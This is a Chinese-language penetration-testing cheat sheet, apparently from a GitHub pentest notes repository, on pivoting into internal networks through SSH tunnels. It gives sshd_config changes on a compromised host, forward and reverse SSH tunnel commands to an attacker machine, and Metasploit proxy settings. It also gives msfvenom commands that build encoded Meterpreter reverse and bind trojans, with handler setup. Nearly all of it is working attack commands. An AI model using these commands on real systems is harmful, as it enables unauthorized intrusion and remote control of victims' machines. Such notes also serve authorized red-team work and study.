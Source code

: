   #### 正向代理
	SSH动态转发，是建立正向加密的socks通道
	出网靶机编辑后restart ssh服务
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	外部攻击机执行
	>ssh -C -f -N -g -D 0.0.0.0:12138 root@出网靶机IP -p 22
	MSF中设置全局代理或使用其他软件
	>setg proxies socks5:0.0.0.0:12138
	即可进行攻击隔离区机器
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/326.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/327.png)
  #### 反向代理
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	ClientAliveInterval 修改为30-60保持连接
	ClientAliveCountMax 取消注释 发送请求没响应自动断开次数
	107是外网攻击机
	内网靶机执行：
	>ssh -p 22 -qngfNTR 12138:127.0.0.1:22 root@192.168.0.107
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/328.png)

	攻击机执行
	>ssh -p 12138 -qngfNTD 12345 root@192.168.0.107
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/329.png)
	
	隧道建立，可使用代理软件配置攻击机外网IP:12345访问内网
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/330.png)
  #### SSH隧道+rc4双重加密
	生成木马
	>msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 rc4password=123456 lport=446 -f exe -o /var/www/html/bind.exe
	MSF设置
	>setg proxies socks5:0.0.0.0:12138
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/bind_tcp_rc4
	>set rc4password 123456
	>set rhost 10.1.1.97
	>set lport 446
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/331.png)
  #### 公网SSH隧道+Local MSF
	>msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=公网IP LPORT=12138 -f exe –o /var/www/html/1.exe
	Handler监听本地IP:12138
	SSH转发
	>ssh -N -R 12138:本地内网IP:12138 root@公网IP
